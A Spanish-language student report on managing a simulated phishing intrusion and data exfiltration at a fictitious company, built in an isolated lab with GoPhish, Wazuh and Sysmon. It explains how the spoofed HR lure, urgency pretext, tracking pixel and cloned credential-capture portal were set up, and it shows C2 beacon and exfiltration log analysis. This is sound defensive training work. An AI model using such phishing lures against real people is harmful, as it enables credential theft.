




# Gestión de un incidente de ciberseguridad
### Caso práctico: phishing, intrusión y respuesta en Nexora S.L.

**Autor:** Luis Fernando Arrosquipa
**GitHub:** Fer1399
**Módulo:** Incidentes de ciberseguridad
**Entorno:** Laboratorio virtual aislado (VirtualBox) — pruebas en equipos y redes autorizados
**Fecha:** noviembre 2026

> **Aviso.** Todo el ataque de este trabajo lo reproduje mediante **emulación de adversario** con herramientas legítimas (GoPhish y PowerShell) y **datos ficticios**. En ningún momento usé malware real. La empresa «Nexora S.L.» es inventada y el laboratorio está completamente aislado de cualquier red de producción.

---

## Índice

1. Prevención y concienciación
2. Detección y auditoría
3. Investigación y análisis
4. Respuesta y recuperación
5. Notificación y organismos de respuesta (CERT/CSIRT)
6. Simulación de la reunión del equipo de respuesta
- Herramientas utilizadas
- Conclusiones
- Fuentes consultadas
- Anexos: instalación, scripts y configuración

---

## Introducción

En este informe explico, de principio a fin, cómo gestiono un incidente de ciberseguridad en una empresa ficticia, Nexora S.L. El caso es realista: un correo de *phishing* que suplanta a Recursos Humanos roba las credenciales de una empleada, el atacante entra en su equipo, lo controla desde un servidor externo (C2) y se lleva un fichero con datos de clientes.

Para trabajarlo de forma práctica y sin riesgos, monté todo el escenario en un **laboratorio virtual aislado** y **emulé** el ataque con herramientas legítimas, sin usar malware real. A lo largo del documento recorro las cinco fases de la gestión de un incidente —prevención, detección, investigación, respuesta y notificación— y termino con una simulación de la reunión del equipo de respuesta. En cada fase junto la **teoría** (qué hago y por qué) con la **práctica** (capturas reales, resultados y los scripts que he desarrollado).

## Arquitectura del laboratorio

Para el laboratorio reproduje una pequeña red corporativa sobre VirtualBox. Conecté todas las máquinas a una **Red NAT** llamada `nexora-lab`, con direccionamiento `10.10.10.0/24`. Así se ven entre sí y tienen salida a internet para instalarse, pero el laboratorio queda **aislado de mi red doméstica**: ni el ataque ni el tráfico de prueba salen al exterior.

La red tiene cinco elementos: un controlador de dominio que gestiona la empresa, un servidor donde centralizo la detección, el equipo de la víctima, la máquina del atacante y la puerta de enlace:

| Equipo | Sistema operativo | IP | Rol en el escenario |
|--------|-------------------|----|---------------------|
| DC-NEXORA | Windows Server 2025 | 10.10.10.10 | Controlador de dominio `nexora.lab` + DNS |
| SRV-SIEM | Ubuntu Server 26.04 | 10.10.10.20 | SIEM (Wazuh): detección y análisis central |
| PC-RRHH-01 | Windows 11 | 10.10.10.50 | Víctima: equipo de RR. HH. con Sysmon + agente Wazuh |
| KALI | Kali Linux | 10.10.10.100 | Atacante: GoPhish, MailHog y servidor C2 |
| Gateway | — | 10.10.10.1 | Puerta de enlace de la Red NAT |

Antes de empezar comprobé que la red funcionaba. Desde el controlador de dominio DC-NEXORA hice *ping* a las otras tres máquinas y todas respondieron **sin pérdida de paquetes**. Un detalle que me resulta útil para el análisis: el **TTL** de las respuestas delata el sistema operativo del destino, porque las Linux responden con TTL 64 y las Windows con TTL 128.


---

## 1. Prevención y concienciación

La mejor defensa es que el incidente no llegue a ocurrir. En este primer apartado identifico las amenazas a las que se expone Nexora S.L. y planteo las medidas de prevención y concienciación para reducir el riesgo.

### 1.1 Riesgos y amenazas principales

El principal riesgo es el **phishing y la ingeniería social**: correos que engañan al empleado para que haga clic o entregue sus credenciales. A partir de ahí se encadenan otras amenazas: la ejecución de **malware** a través de adjuntos con macros, el **robo de credenciales** y el **movimiento lateral** por el dominio (el atacante salta de un equipo a otro), y finalmente la **exfiltración de datos personales** de clientes, que además de un problema de seguridad es una brecha con implicaciones legales (RGPD). Un riesgo transversal es la **ausencia de procedimientos de respuesta**: sin un plan, la organización improvisa cuando más necesita actuar con criterio.

### 1.2 Normas de seguridad para los puestos

Para reducir esos riesgos propongo unas normas básicas en cada puesto de trabajo. Los usuarios deben **bloquear la sesión** al ausentarse y usar **contraseñas robustas** gestionadas por la política de dominio. Se aplica el **principio de mínimo privilegio**: nadie trabaja con permisos de administrador en su equipo. El antivirus/EDR permanece activo, las **macros de Office se deshabilitan** por defecto y las actualizaciones se instalan automáticamente. Por último, se habilita un **canal para reportar correos sospechosos**, de modo que un empleado que dude pueda avisar sin miedo a equivocarse.

### 1.3 Plan de formación y concienciación

La concienciación la trabajo con **formación periódica** sobre cómo identificar un phishing y con **simulacros controlados** —como el de este propio trabajo— que me permiten medir cuántos empleados pican y mejorar a partir de ahí. Como apoyo visual preparé dos materiales propios: una **guía de buenas prácticas** para el personal y un **cartel recordatorio** para las zonas de trabajo.


El texto completo de la guía de buenas prácticas se incluye a continuación:

Guía breve para todo el personal. Objetivo: reducir el riesgo de incidentes como el phishing de RR. HH. analizado en este trabajo.

### 1. Correo y phishing (la puerta de entrada más común)
- **Desconfía de la urgencia.** Mensajes que amenazan con "suspender tu cuenta" o ponen un plazo corto buscan que actúes sin pensar.
- **Revisa el remitente y el enlace.** Pasa el ratón por encima del botón o enlace y comprueba la dirección real **antes** de pulsar. Si no coincide con el dominio oficial, no entres.
- **Nunca introduzcas tu contraseña** a través de un enlace recibido por correo. Accede siempre escribiendo tú la dirección del portal.
- **Ante la duda, reporta.** Reenvía el correo sospechoso al canal de RR. HH./IT y no lo borres hasta que lo revisen.

### 2. Contraseñas y acceso
- Usa **contraseñas largas y únicas** para cada servicio; apóyate en un gestor de contraseñas.
- Activa el **doble factor (MFA)** siempre que esté disponible.
- **Bloquea la sesión** (Win+L) al levantarte del puesto.

### 3. Puesto de trabajo
- Trabaja con un usuario **sin permisos de administrador** para las tareas del día a día.
- Mantén el **sistema y el antivirus actualizados**; no desactives las protecciones.
- **No habilites macros** en documentos de Office que lleguen por correo, aunque el remitente parezca conocido.
- No conectes **USB desconocidos** ni instales software fuera de los canales autorizados.

### 4. Datos de clientes (RGPD)
- Trata los datos personales solo en los sistemas autorizados; **no los copies** a equipos o nubes personales.
- Si sospechas que ha habido un acceso o fuga de datos, **avisa de inmediato**: en una brecha, el tiempo cuenta (plazo legal de 72 h).

### 5. Si crees que has caído en un ataque
1. **No lo ocultes.** Avisa cuanto antes a IT/RR. HH.
2. Si has introducido tu contraseña en una web sospechosa, **cámbiala ya** en el portal real.
3. Anota qué pasó (correo, hora, enlace) para ayudar a la investigación.
4. No apagues el equipo si te lo pide el equipo técnico: puede necesitar la evidencia.

---
> Recuerda: la seguridad es cosa de todos. Un solo clic puede abrir la puerta; un solo aviso a tiempo puede cerrarla.

### 1.4 Fundamentos de criptografía aplicados al caso

La criptografía sostiene buena parte de las medidas de seguridad y, en este trabajo, aparece de forma concreta en la preservación de evidencias. Los conceptos clave son:

- **Cifrado simétrico (AES):** usa la misma clave para cifrar y descifrar; es rápido y adecuado para proteger datos en reposo.
- **Cifrado asimétrico (RSA):** emplea un par de claves, pública y privada; permite el intercambio seguro de información y la firma.
- **Funciones hash (SHA-256):** generan una huella irreversible de un fichero; son la base para **garantizar la integridad de las evidencias** (apartado 3).
- **Certificados digitales y PKI:** vinculan una identidad con su clave pública a través de una autoridad de certificación (CA).
- **Firma electrónica:** aporta autenticidad e integridad, cifrando el hash de un documento con la clave privada del firmante.
- **Diffie-Hellman:** permite acordar una clave secreta sobre un canal inseguro.

> **Conexión práctica.** El mismo SHA-256 que define la integridad de un fichero es el que Sysmon captura de cada binario ejecutado, el que se usa en la cadena de custodia y el que se consulta en VirusTotal (apartado 3). La teoría se vuelve, así, una herramienta de investigación.

---

## 2. Detección y auditoría

Detectar a tiempo es lo que separa un susto de un desastre. En este apartado clasifico el incidente, identifico los sistemas afectados y despliego la infraestructura de detección que luego me deja ver el ataque en tiempo real.

### 2.1 Clasificación y gravedad

Clasifico el incidente como una **intrusión con acceso no autorizado** originada por phishing:

| Campo | Valor |
|-------|-------|
| Tipo | Intrusión vía phishing + malware (acceso no autorizado) |
| Vector | Correo que suplanta a RR. HH. con un enlace malicioso |
| Taxonomía | Intrusión + contenido abusivo (phishing), según ENISA/INCIBE |
| Activos afectados | PC-RRHH-01, credenciales de usuario y datos de clientes |
| Gravedad | **ALTA** por la sospecha de exfiltración de datos personales; pasaría a **CRÍTICA** si se confirma |

### 2.2 Sistemas afectados

El equipo **PC-RRHH-01** es el *paciente cero*: es donde se abre el correo y se roban las credenciales. A partir de él, el **controlador de dominio DC-NEXORA** queda en riesgo, porque unas credenciales válidas podrían usarse para moverse por el dominio. También se ven implicados la **carpeta compartida** que contiene el CSV de clientes y la **salida a internet** del equipo, por la que el atacante establece la comunicación con su servidor externo.

### 2.3 Herramientas de detección y registros

Para la detección me apoyo en varias herramientas complementarias: **Wazuh** como SIEM central que recoge y correla los eventos, **Sysmon** para la telemetría detallada del endpoint, **Wireshark** para inspeccionar el tráfico, y el **Visor de eventos** y el **MITRE ATT&CK Navigator** como apoyo al análisis.

Las fuentes de registro que vigilo son las que cuentan la historia del ataque: los **logs del antivirus** (Defender) y del **firewall**, los **eventos del sistema operativo** (inicios de sesión 4624/4625 y creación de procesos 4688), la **telemetría de Sysmon** (procesos, conexiones de red y cambios en ficheros) y el **tráfico de red**, donde se observan el *beacon* periódico hacia el C2 y la exfiltración.

### 2.4 Despliegue de la detección

Sobre el servidor SRV-SIEM instalé **Wazuh 4.9.2** en modo todo-en-uno (indexador, gestor y panel), accesible en `https://10.10.10.20`. En el equipo de la víctima desplegué el **agente de Wazuh junto con Sysmon**, de modo que cada proceso, conexión o cambio en el sistema llega al SIEM para su análisis. El agente quedó conectado y reportando correctamente.


Una vez instalado, el agente de la víctima aparece en estado **Active** en la consola, identificado como PC-RRHH-01 (ID 001, IP 10.10.10.50), lo que confirma que la telemetría llega al SIEM:


Desde el panel del agente consulto el resumen de eventos, el mapeo automático con **MITRE ATT&CK** y el resultado del escaneo de configuración de seguridad (SCA). Ese escaneo evaluó el equipo frente al *benchmark* **CIS Microsoft Windows 11** y me dio 114 comprobaciones superadas y 273 fallidas (un 29 % de cumplimiento), una idea realista del estado de endurecimiento de un equipo recién instalado:


### 2.5 OSINT de IPs, dominios y hashes

Como complemento a la detección interna, contrasto los indicadores observados (direcciones IP, dominios y hashes de ficheros) con fuentes de inteligencia abiertas (OSINT): **VirusTotal** y **AbuseIPDB**. Lo automatizo con un script propio que explico en el apartado 3.

### 2.6 Ficha de registro del incidente

Consolido toda la información anterior en una ficha que acompaña al incidente durante toda su gestión y me sirve de referencia:

| Campo | Contenido |
|-------|-----------|
| ID del incidente | INC-2026-001 |
| Fecha y hora de detección | 14/11/2026, 23:37 (CET) |
| Detectado por | Departamento de Informática (alertas de Wazuh) |
| Tipo de incidente | Intrusión vía phishing con sospecha de exfiltración |
| Vector de entrada | Correo que suplanta a RR. HH. con enlace malicioso |
| Activos afectados | PC-RRHH-01 (10.10.10.50), credenciales de `rrhh.ana`, CSV de clientes |
| Indicadores (IOC) | IP del C2 10.10.10.100; portal falso; hashes recogidos en `iocs.csv` |
| Gravedad | ALTA (pasa a CRÍTICA si se confirma la exfiltración) |
| Técnicas MITRE | T1566.001, T1056, T1059.001, T1033, T1087, T1071, T1048 |
| Estado | En investigación → contención |
| Responsable | Coordinador del equipo de respuesta |
| Acciones realizadas | Detección en el SIEM, preservación de evidencias y análisis OSINT |
| Próximos pasos | Aislar el equipo, bloquear el C2, revocar credenciales y notificar a la AEPD |

---

## 3. Investigación y análisis

Este es el núcleo práctico del trabajo: reproduzco el ataque completo paso a paso y, acto seguido, lo investigo como lo haría un analista, preservando las evidencias y apoyándome en mis propios scripts.

### 3.1 Reproducción del ataque (emulación de adversario)

Reproduzco el ataque en dos fases encadenadas. Primero monto una campaña de **phishing** con GoPhish y MailHog: un correo que suplanta a RR. HH. lleva a la víctima a un portal falso donde entrega sus credenciales. Después simulo con PowerShell (`emular-ataque.ps1`) la fase de **ejecución y post-explotación**: reconocimiento del sistema, acceso al CSV de clientes, comunicación periódica con el C2 y exfiltración del fichero.

#### Construcción de la campaña de phishing (GoPhish)

Monto la campaña en GoPhish con cuatro piezas. La primera es el **perfil de envío** (*Sending Profile*), que define el servidor de correo saliente; lo apunto a MailHog, que actúa como *buzón trampa* y evita que ningún correo salga a internet real:


La segunda pieza es el **grupo de destinatarios**, los empleados de RR. HH. de Nexora (datos ficticios) a los que se dirige el simulacro:


La tercera es la **plantilla del correo**, el mensaje que suplanta a RR. HH. e incorpora el enlace malicioso mediante la variable `{{.URL}}` y un píxel de seguimiento con `{{.Tracker}}` que permite saber si la víctima abre el correo:



La cuarta es la **página de aterrizaje** (*Landing Page*), un clon del portal del empleado con la opción de **captura de credenciales** activada y una redirección final para no levantar sospechas tras el robo:



#### Entrega y ejecución del ataque

Lanzada la campaña, el correo sale de GoPhish y lo recoge **MailHog**, el buzón trampa del laboratorio. En su bandeja aparecen los mensajes de «Recursos Humanos» dirigidos a los empleados objetivo:


Si abro el correo, veo el señuelo tal y como le llega a la víctima: un mensaje HTML que imita a RR. HH. de Nexora, con un **pretexto de urgencia** (verificar las credenciales antes del 30 de noviembre o la cuenta quedará «suspendida»), la firma de una técnica inventada y un botón **«Verificar mi cuenta»** que enlaza al portal falso (`http://10.10.10.100?rid=...`). Es un ejemplo de manual de ingeniería social: autoridad, urgencia y miedo a perder el acceso.



Al pulsar el botón, la víctima llega al **portal falso** de captura de credenciales, un clon del «Portal del Empleado» servido por GoPhish e indistinguible del real a ojos de un usuario desprevenido:



#### Resultado del phishing

La víctima introdujo sus credenciales, que quedaron capturadas en claro. GoPhish registra toda la cronología del ataque para `rrhh.ana@nexora.lab`: *Email Sent → Email Opened → Clicked Link → Submitted Data*. Las credenciales obtenidas fueron:

```
username: rrhh.ana@nexora.lab
password: verano2027
```

> **Nota.** La credencial mostrada es un valor **ficticio de demostración** introducido durante el simulacro; no corresponde a ninguna cuenta real. En términos de MITRE ATT&CK, esta fase combina las técnicas **T1566.001** (*Spearphishing Link*) y **T1056** (captura de entrada del usuario).

La siguiente captura muestra el embudo completo de la campaña para la víctima Ana Prueba, con el estado final **Submitted Data** y las credenciales capturadas en el detalle del evento:


A nivel de campaña, el panel de GoPhish resume el éxito del simulacro (*Phishing Success Overview* de «Phishing RRHH - Nov2026 v2»): de 2 correos enviados, 2 fueron abiertos, 1 hizo clic y 1 entregó sus datos, con 0 reportados. Es una métrica directamente aprovechable para justificar la formación del apartado 1:


### 3.2 Preservación de la integridad de las evidencias

Las **evidencias que procede recopilar** en este incidente son: el **correo de phishing** con sus cabeceras, la **configuración y la base de datos de GoPhish** (`config.json`, `gophish.db`), el **registro del servidor C2**, el **CSV de clientes** exfiltrado, la **telemetría de Sysmon** y las **alertas de Wazuh**, y los **artefactos volátiles del equipo víctima** (procesos, conexiones de red y tareas programadas recogidos por el script de respuesta).

Antes de analizar nada tengo que garantizar que esas evidencias no se alteran, así que sello cada fichero con su huella **SHA-256**. Mi script `generar-iocs.py` calcula los hashes de toda la campaña (procesé **306 ficheros**) y genera las tablas de indicadores `iocs.csv` e `iocs.md`. Además, con `cadena-custodia.py` llevo un **libro de cadena de custodia** que anota quién recogió cada evidencia, cuándo y con qué hash, y me deja reverificar en cualquier momento que no se ha tocado. En la práctica registré como evidencia la configuración y la base de datos de la campaña (`config.json` y `gophish.db`) y comprobé su integridad con resultado correcto (salidas reales en `scripts/salidas-scripts.txt`):

```
[+] Evidencia registrada: config.json
    SHA-256: c3cdad7b48817696f7cdfb4f95f927e2063d058516c2d2153de30a4c031cfada
[+] Evidencia registrada: gophish.db
    SHA-256: 1e4042887339f0faaf9fd5b6bfc4883eddbc6dd8668878a4eedb24ce2888e92d
[OK] config.json
    => INTEGRIDAD INTACTA
```

### 3.3 Análisis de un binario por su hash

Durante la ejecución, Sysmon capturó el hash SHA-256 del proceso lanzado (`systeminfo.exe`). Lo consulté en VirusTotal y devolvió **0 detecciones sobre 75 motores**, así que es un binario legítimo de Microsoft. Con esto verifico la reputación de un fichero por su huella sin necesidad de tenerlo delante.

Mi script `osint-lookup.py` me automatiza esta consulta: detecta si el indicador es una IP, un dominio o un hash y pregunta a **VirusTotal** y **AbuseIPDB**. Para validarlo lo probé también con una IP pública conocida (8.8.8.8, de Google), que AbuseIPDB reporta con un 0 % de abuso. Las salidas completas están en `scripts/salidas-scripts.txt`.

### 3.4 Análisis de las conexiones sospechosas

Para estudiar la comunicación con el atacante escribí `analizar-conexiones.py`, que procesa el registro del servidor C2 y clasifica cada petición. El análisis confirmó el patrón característico de un mando y control: **cuatro conexiones periódicas de tipo *beacon*** y **una petición POST de exfiltración** con el CSV de clientes, todas desde la víctima (10.10.10.50) hacia el atacante (10.10.10.100):

```
Beacon / C2: 4 peticiones GET /beacon  (patrón periódico = C2)
Exfiltración: 1 POST /exfil_clientes.csv
Conclusión: víctima 10.10.10.50 -> atacante 10.10.10.100
Técnicas: C2 (T1071) y exfiltración (T1048)
```

### 3.5 Detección correlada en Wazuh

Todo lo anterior lo observo, en paralelo, desde el SIEM. Para ello escribí **reglas personalizadas** (`local_rules.xml`) que, con la telemetría de Sysmon, convierten la actividad del atacante en alertas con su nivel de severidad y su técnica MITRE asociada:

| ID de regla | Descripción | Nivel | MITRE |
|-------------|-------------|-------|-------|
| 100200 | Comando de reconocimiento ejecutado | 10 | T1033 / T1087 |
| 100201 | PowerShell de descarga o exfiltración | 12 | T1059.001 / T1048 |
| 100202 | Conexión saliente a la IP del atacante (10.10.10.100) | 12 | T1071 |

El resultado fueron **20 alertas de reconocimiento** (regla 100200) y **3 alertas de nivel 12** correspondientes a la exfiltración y el C2. Lo valioso es el detalle forense que acompaña a cada alerta. La siguiente captura, tomada de la vista *Discover* de Wazuh, muestra un único evento de reconocimiento con toda su cadena de evidencia: el comando ejecutado (`systeminfo`), su proceso padre (`cmd.exe /c systeminfo`), el usuario (`NEXORA\Administrador`), el nivel de integridad, el canal de Sysmon y el **hash SHA-256** del binario —el mismo que se verificó por OSINT en el punto 3.3—. Así se cierra el círculo entre la telemetría del endpoint y el análisis:


---

## 4. Respuesta y recuperación

Confirmado el incidente, el objetivo es **contener, erradicar y recuperar** con el menor daño posible y sin destruir las evidencias. El procedimiento sigue un orden deliberado:

1. **Aislamiento** del equipo comprometido, cortando su conexión de red para frenar la exfiltración y el control remoto.
2. **Bloqueo** de las comunicaciones maliciosas mediante una regla de firewall contra la IP del atacante (10.10.10.100).
3. **Revocación** de las credenciales comprometidas: restablecer la contraseña de `rrhh.ana` en el Active Directory y forzar su cambio.
4. **Eliminación** de la amenaza, retirando cualquier mecanismo de persistencia.
5. **Recuperación** del equipo a partir de un *snapshot* limpio anterior al incidente.
6. **Medidas preventivas** para que no se repita: formación, MFA, bloqueo de macros y nuevas reglas en Wazuh.

Para ejecutar los primeros pasos de forma ordenada y, sobre todo, **trazable**, escribí el script `respuesta-aislar.ps1`. Lo diseñé respetando el **orden de volatilidad**: primero recojo la evidencia que se perdería al apagar o aislar el equipo (conexiones de red activas —resaltando las dirigidas al atacante—, procesos en ejecución, sesiones abiertas, tareas programadas que delaten persistencia, caché ARP y tabla de rutas) y solo después bloqueo al atacante en el firewall y deshabilito los adaptadores de red. Al terminar, **sello toda la evidencia recogida con SHA-256** (`SHA256SUMS.txt`) y dejo un registro con marcas de tiempo (`respuesta.log`), para que la actuación quede documentada en la cadena de custodia. Se ejecuta así:

```powershell
.\respuesta-aislar.ps1 -IPAtacante 10.10.10.100
```

Más allá de la respuesta inmediata, el caso se enmarca en la **ciberresiliencia**: anticipación (endurecimiento y formación), resistencia (segmentación y EDR), recuperación (copias de seguridad y *snapshots*) y evolución (lecciones aprendidas y mejora continua de las reglas de detección).

---

## 5. Notificación y organismos de respuesta

Un incidente con datos personales no termina en lo técnico: conlleva obligaciones de comunicación. En el plano interno informo a la dirección y aviso a los empleados con un mensaje claro y sin alarmismo. Un **modelo de comunicación interna** para los empleados sería:

> **Asunto:** Aviso de seguridad — no interactúe con el correo de «Recursos Humanos»
>
> Estimados compañeros:
>
> Hemos detectado una campaña de correos fraudulentos que **suplantan al departamento de RR. HH.** y piden verificar las credenciales a través de un enlace. **No pulse el enlace ni introduzca su contraseña.**
>
> Si ya lo ha hecho, **cambie su contraseña de inmediato** y avise al departamento de Informática (ext. XXX). El equipo de seguridad está gestionando el incidente y les mantendrá informados.
>
> Gracias por su colaboración. — Equipo de Seguridad de la Información

En el plano legal, al existir **sospecha de exfiltración de datos de clientes**, procede notificar la **brecha de datos personales a la Agencia Española de Protección de Datos (AEPD)** en un plazo máximo de **72 horas** desde que se tiene conocimiento, conforme al artículo 33 del RGPD; si hay un riesgo alto para los afectados, también debe informarse a estos (artículo 34).

Por último, Nexora se apoyaría en **equipos de respuesta a incidentes (CERT/CSIRT)**. Su función es prevenir y responder a incidentes de ciberseguridad: emiten alertas y avisos tempranos, prestan soporte técnico durante la gestión, analizan amenazas y coordinan la respuesta a escala nacional o sectorial. Se recurriría al menos a dos:

- **INCIBE-CERT (España).** Equipo de referencia para ciudadanos y empresas; ofrece soporte ante incidentes, avisos de seguridad y recursos de concienciación.
- **CCN-CERT (España).** Del Centro Criptológico Nacional; da servicio al sector público y gestiona los incidentes de especial gravedad.

A escala internacional existen además referencias como **ENISA** (Agencia de la Unión Europea para la Ciberseguridad), que coordina y publica guías y buenas prácticas, y **CISA** (Estados Unidos), que emite alertas y recomendaciones ampliamente seguidas.

---

## 6. Simulación de la reunión del equipo de respuesta

Para cerrar el ciclo simulo una **reunión de crisis del equipo de respuesta** (CSIRT interno), con roles definidos —coordinador del incidente, analista/forense, administrador de sistemas, responsable de protección de datos (DPO) y dirección—. En la reunión abordo las cuatro circunstancias del enunciado y justifico la decisión en cada una:

| Circunstancia | Decisión | Justificación (resumen) |
|---------------|----------|-------------------------|
| **Aparece un segundo equipo infectado** | Elevar la gravedad a CRÍTICA, aislarlo también y revisar los inicios de sesión (evento 4624) | Indica movimiento lateral; hay que contener antes de que se extienda |
| **Indicios claros de exfiltración** | El DPO activa el procedimiento de brecha y se prepara la notificación a la **AEPD en 72 h** | La obligación legal corre desde el conocimiento, al margen de lo técnico |
| **El atacante mantiene acceso persistente** | Restaurar desde un *snapshot* limpio y revocar las credenciales en el AD | Una limpieza manual no garantiza erradicar al atacante |
| **Presión de dirección por recuperar servicios** | Recuperación **por fases**, reconectando primero lo ya verificado, con MFA y macros bloqueadas | Equilibra la continuidad del negocio y la seguridad sin reabrir el incidente |

El desarrollo completo de la reunión, con el guion de cada intervención, es el siguiente:

**Incidente:** intrusión vía phishing de RR. HH. en Nexora S.L. con sospecha de exfiltración de datos de clientes.
**Formato:** reunión de crisis del *Equipo de Respuesta a Incidentes* (CSIRT interno). Se convoca 40 minutos después de la primera alerta de nivel 12 en Wazuh.

### Asistentes y roles
- **Coordinador del incidente (IC):** dirige la reunión y toma la decisión final.
- **Analista SOC / Forense:** aporta la evidencia técnica (Wazuh, Sysmon, logs).
